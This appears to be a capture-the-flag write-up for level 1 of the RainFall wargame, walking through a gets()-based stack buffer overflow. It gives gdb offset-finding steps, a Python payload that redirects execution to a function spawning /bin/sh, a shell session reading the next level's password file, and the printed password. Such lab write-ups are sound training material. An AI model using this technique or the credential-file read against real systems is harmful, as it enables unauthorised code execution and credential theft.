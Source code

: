 📘 Buffer Overflow Exploit: Level 1
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.

gets() does not check how much input is provided.

So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: Try 80 characters and check if EIP is overwritten

$ python -c 'print "B" * 80' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
✅ EIP is overwritten with 0x42 ("B" in ASCII) — good sign.

Step 2: Try 76 characters
$ python -c 'print "B" * 76' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main ()
✅ At 76 bytes, we don’t overwrite EIP yet, so offset is exactly 76 bytes.

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.

"A" * 76: Fills the buffer right up to the return address.

struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


alternative:
find the offset in the pattern 
```Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4```

